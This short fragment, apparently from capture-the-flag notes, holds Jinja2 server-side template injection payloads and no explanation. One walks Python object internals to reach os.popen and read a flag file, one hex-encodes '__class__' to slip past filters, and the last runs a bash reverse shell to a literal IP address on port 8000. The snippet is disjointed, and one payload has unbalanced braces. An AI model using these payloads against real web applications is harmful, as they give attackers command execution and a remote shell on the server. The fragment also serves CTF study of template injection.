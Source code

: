 {{ 
	config|
	attr("__class__")| 
	attr("__init__")|
	attr("__globals__['os']")|
	attr("popen(['cat flag', [1|float|string|list][0][1], 'txt']|join)")|
	attr("read()")
}}

becomes {{""["5F5F636C6173735F5F"["decode"]("hex")]}



{{ config['RUNCMD']('bash -i >& /dev/tcp/5.18.171.149/8000 0>&1',shell=True) }}